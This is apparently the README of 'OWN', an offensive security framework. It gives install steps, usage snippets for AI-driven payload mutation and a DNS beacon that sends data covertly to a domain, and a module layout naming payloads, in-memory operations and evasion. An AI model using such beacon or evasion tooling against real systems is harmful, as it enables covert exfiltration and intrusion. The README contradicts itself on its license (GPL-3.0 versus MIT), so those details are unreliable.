 ![OWN Logo](.github/branding/logo.png)

# OWN - Security Tooling

> **Legal Notice**: For authorized security testing, education, and research only. Users must comply with all applicable laws.

[![CI](https://github.com/GnomeMan4201/OWN/actions/workflows/ci.yml/badge.svg)](https://github.com/GnomeMan4201/OWN/actions)
[![Security](https://img.shields.io/badge/Security-Audited-green.svg)](SECURITY.md)

## Quick Start

```bash
git clone https://github.com/GnomeMan4201/OWN.git
cd OWN
./quickstart.sh
```

## Overview

Professional security tool for red team operations and security research.

## Features

- Enterprise-grade security testing
- Modular architecture
- Comprehensive documentation
- Active maintenance

## Installation

```bash
# Docker
docker-compose up -d

# Manual
pip install -r requirements.txt
```

## Documentation

Full documentation: [docs/](docs/)

## Security

Report vulnerabilities: [SECURITY.md](SECURITY.md)

## License

GPL-3.0 - See [LICENSE](LICENSE)

### Quick Start
```bash
# Run the quickstart script
./quickstart.sh

# Or run directly
python -m OWN_PACKAGE.pwn
Usage

Basic Operation

```python
from OWN_PACKAGE.pwn import main
from OWN_PACKAGE.phases import adaptive_mutator, dns_beacon

# Initialize the framework
controller = main.OWNController()

# Run adaptive security assessment
results = controller.run_assessment(target="example.com")
```

Module Examples

```python
# AI-driven payload mutation
from OWN_PACKAGE.phases.adaptive_mutator import AdaptiveMutator
mutator = AdaptiveMutator()
mutated_payload = mutator.mutate(original_payload)

# Covert DNS communication
from OWN_PACKAGE.phases.dns_beacon import DNSBeacon
beacon = DNSBeacon(domain="example.com")
beacon.send_data(encrypted_data)
```

🏗 Architecture

```
OWN/
├── OWN_PACKAGE/
│   ├── phases/           # 42 specialized modules
│   │   ├── ai_loop.py           # AI decision engine
│   │   ├── adaptive_mutator.py   # Payload mutation
│   │   ├── dns_beacon.py        # Covert communications
│   │   ├── memory_engine.py     # In-memory operations
│   │   └── [38 more modules...]
│   ├── pwn.py           # Main controller
│   └── payloads/        # Attack payloads
├── assets/              # Logos and demos
├── .github/workflows/   # CI/CD pipelines
└── quickstart.sh        # Setup script
```

🔧 Development

Code Quality

```bash
# Install development tools
pip install black isort flake8 pre-commit

# Run code formatting
black OWN_PACKAGE/

# Run linting
flake8 OWN_PACKAGE/

# Install pre-commit hooks
pre-commit install
```

Testing

```bash
# Run the test suite
python -m pytest tests/

# Verify functionality
python -m OWN_PACKAGE.pwn --test
```

⚠️ Security & Responsibility

Important: This tool is designed for:

· Authorized penetration testing
· Security research and education
· Defensive security development

Never use against systems you don't own or have explicit permission to test.

See SECURITY.md for responsible disclosure guidelines.

🤝 Contributing

We welcome contributions from security professionals!

1. Fork the repository
2. Create a feature branch (git checkout -b feature/advanced-module)
3. Commit your changes (git commit -m 'Add advanced evasion technique')
4. Push to the branch (git push origin feature/advanced-module)
5. Open a Pull Request

Please read our Security Guidelines before contributing.

📄 License

This project is licensed under the MIT License - see the LICENSE file for details.

👥 Authors

· GnomeMan4201 - Initial work and maintenance

🙏 Acknowledgments

· Cybersecurity community for research and techniques
· Open-source security tools that inspired this project
· AI/ML security research advancements

---

Disclaimer: Use responsibly and only in ethical, legal security testing contexts.

⭐ If this project helps you, please give it a star!
